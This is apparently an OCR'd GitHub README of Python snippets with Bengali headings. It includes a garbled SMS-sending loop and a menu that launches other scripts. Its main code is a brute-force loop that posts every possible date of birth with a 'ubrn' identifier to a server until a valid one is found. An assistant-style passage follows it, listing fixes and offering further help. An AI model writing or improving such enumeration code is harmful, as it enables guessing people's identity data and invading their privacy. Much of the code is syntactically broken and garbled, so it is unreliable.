 # Python-lerne


##  যে কোনো স্থানে কোনো কিছু টাইপ করে নেওয়া।

nid=str(input(" what is the number :-- ")

dob=int(input(" what is the day:-) 

How to ----- ---- 
       ----- ----- 

       print(45*"-")

       





## কত গুলো sms সেন্ট করতে পারবো।


10=str(input(" WHAT is the amaunt")

2 টাই ব্যাবহার করতে পারব।

for i range (10) or

printe(str(i+1)+"Sent SmS")

## tool oftion add

import os

while True:

	os.system("clear") 
 
	print(" [1] frist tool \n [2] secant tool \n [3] thert tool")
 
	opt=str(input("what is the selet no:-- "))
	
if opt=="1":
	os.system("python3 1.py")
	
elif opt==2:
	os.system("python3 2.py")
	
elif opt==3:
	os.system("python3 3.py")
 
else:

print("[x] wrong valo inter")
  

## typing kote thakbr



# Iterating through possible date combinations
for year in range(start_year, end_year + 1):  # Using user input for year range
    for month in range(1, 13):  # Months 1-12
        for day in range(1, 32):  # Days 1-31 (handling invalid dates later)
            try:
                dob = f"{year:04d}-{month:02d}-{day:02d}"  # Formatting DOB
                payload = {"ubrn": ubrn, "dob": dob}

                response = requests.post(url, data=json.dumps(payload), headers=headers)
                response_data = response.json()

                response_code = response_data.get("responseCode")
                print(f"Trying DOB: {dob} -> Response Code: {response_code}")

                if response_code == 0:  # If response code is 0, stop execution
                    print("Response code is 0, stopping execution.")
                    exit()

                if response_code == "SUCCESS":  # Adjust based on actual success response
                    print(f"Valid DOB found: {dob}")
                    exit()  # Stop execution if a valid DOB is found

            except Exception as e:
                print(f"Error with DOB {dob}: {e}")
Improvements & Fixes:
Proper Indentation

Fixed incorrect indentation under except, avoiding syntax errors.
Stopping Execution on Response Code 0

If responseCode == 0, the script prints a message and stops immediately.
Stops on Successful DOB Match

If responseCode == "SUCCESS", execution stops.
Would you like to add date validation (e.g., handling February 30, leap years)?








